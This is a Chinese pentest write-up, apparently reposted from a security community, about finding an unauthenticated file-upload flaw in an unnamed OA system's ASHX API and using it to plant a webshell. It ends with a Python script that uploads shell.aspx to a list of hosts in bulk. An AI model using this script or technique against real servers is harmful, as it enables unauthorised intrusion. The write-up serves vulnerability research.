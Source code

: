 #  记一次某OA渗透测试有意思的文件上传漏洞挖掘经历以及分析   
 黑白之道   2025-01-13 01:59  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
# 原文首发在：先知社区  
  
https://xz.aliyun.com/t/16959  
# 登陆  
  
我这边首先找到的是一个文件上传的登陆框  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmba53miaw7D93HgaibEro3WvzNeBic7C8ic6B5s56tPb7MAdUGliaxtZqQWEA/640?wx_fmt=png&from=appmsg&wxfrom=13&tp=wxpic "")  
  
测试了一下sql注入之类的，发现没有  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmb0fT0a9P8LcxmGJbNXnVYR1wfPvPdTKf9uP14pAoY4TYgj609q8QCcw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
# 目录扫描  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbW8BITPiaaXJ8LicurtfCMYGh5tM0VjGevmiboEkib1Hze3DCXIMpcPUgOQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
看到api爆出200 ok的那一刻我的心情是激动的，感觉要有很多接口泄露了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbnZnH8T4qEibJBzew9wBoHphD3lGYoOLcSyw2vORVsr6GeHSLvmDxKzA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
一堆ashx文件加上一个UEditor的组件，ashx  
  
.ashx 文件扩展名通常用于表示 ASP.NET 处理程序（ASP.NET Handler）。ASP.NET 处理程序是一种在服务器端处理特定类型请求的代码文件。这些文件通常用于执行一些特殊的服务器任务，如图像生成、文件下载或其他动态内容的处理。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbsd87GeKLPqkBFpteKFmKpBoiah6hn1PibEF0emCdQGwMeQ7BhPMN54sw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
ueditor组件也有一个ashx文件，看着文件名字应该就是用来处理文件上传功能的  
  
我们访问一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbL26aOrtpPIuHyyeaia42QxiazAaib1qwsuuxtKNnvtDpLxkftG4Nf3S7g/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
给我返回了这个消息，那么我们可以理解为这个文件应该是要传递一个参数的，但是参数是什么，我们目前还不知道  
  
我爆破了一下参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbibDYDuksTWib63erpc3I4gRABPZlvlkUItP0icBxkUYr3ZkS3O6sy9qNQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
依旧是接口错误  
  
难道到手的文件上传getshell（bushi就要没了吗？  
# 查看前端源码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbfib5icvloNSVDGJ9bSBhSUiaIYrVaXuerR6FHp2MImY6A8lp4NudPHTgg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
查看了一下这个js源码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbfl9xwYhS2pfaFeSiaE4OvoqyEKaYk2zmgbRcruEBasicP2dRSAbcFILA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
一搜索就搜到了我那个文件名  
  
那么就是说可以有文件删除和文件上传两个选择，传入DoWebUpload或者DoDelete参数即可  
  
那么我们选择上传一个木马文件试试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmb3aXGvszoRMoaflibqkwdrOUrnu99tsIGVypkVLeFxkYPibCg02ichmtNQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
直接就上传成功了冰蝎连接试试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbibt4owS38TAlaN4jeCjRzQKLXCnRkIblicF1PIkeUgx2RauYUfBCK8Ag/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
直接就是getshell成功了  
# 批量脚本验证  
```
import requests
import os
os.environ["http_proxy"] = "http://127.0.0.1:7890"
os.environ["https_proxy"] = "http://127.0.0.1:7890"
def poc(url=""):
# 目标URL
    url = url+'/api/FileUploadApi.ashx?method=DoWebUpload'
    files = {
        'file': ('shell.aspx', """

        """, 'image/png')
    }

    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'null',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'keep-alive'
    }
    try:
        # 发送POST请求
        response = requests.post(url, files=files, headers=headers,timeout=5)
        # 打印返回结果
        print('Response Code:', response.status_code)
        print('Response Text:', response.text)
    except Exception as e:
        print(e)
if __name__ == '__main__':
    file_path = 'url'
    with open(file_path, 'r', encoding='utf-8') as file:
        for line in file:
            print(line.strip())  # 使用 strip() 去掉行末的换行符
            poc("http://" + line.strip())
    # poc()
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbc0EcT3aLltHGXRPclsuRtoDSGS9n0GR8rcH6wvWjGA868X5L4cbcMg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
# 小结  
  
这次感觉这个文件上传藏得还是比较深的，也是告诉自己挖掘一些漏洞的时候，千万不能放过任何一处细节，往往细节决定成败。  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  

